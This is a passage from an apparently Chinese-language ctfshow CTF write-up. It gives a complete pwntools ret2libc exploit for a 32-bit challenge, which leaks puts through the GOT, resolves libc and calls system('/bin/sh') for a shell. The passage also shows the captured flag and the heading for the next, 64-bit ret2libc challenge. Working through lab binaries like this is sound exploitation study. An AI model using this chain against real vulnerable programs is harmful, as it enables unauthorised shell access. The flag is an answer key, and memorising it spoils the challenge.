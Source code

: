 ```python
offset = b'a'* (0x6B + 0x04)
puts_plt = elf.plt['puts']
puts_got = elf.got['puts']
ctfshow_addr = elf.symbols['ctfshow']

payload = offset + p32(puts_plt) + p32(ctfshow_addr) + p32(puts_got)

p.recvuntil(b'O.o?')

p.sendline(payload)

p.recvuntil(b'\n')

puts_addr = u32(p.recv(4))

libc = LibcSearcher("puts",puts_addr)

libc_base = puts_addr - libc.dump('puts')

system_addr = libc_base + libc.dump('system')

binsh_addr = libc_base + libc.dump('str_bin_sh')

payload_exp = offset + p32(system_addr) + p32(0) + p32(binsh_addr)

p.sendline(payload_exp)

p.interactive()
```



flag：



```
ctfshow{77effa58-ae0d-4439-b49c-8ae347890f9a}
```



## 46. pwn46（64位ret2libc）

64位 无 system 无 "/bin/sh"

![image-20241101213636262](../_media/image-20241101213636262.png)
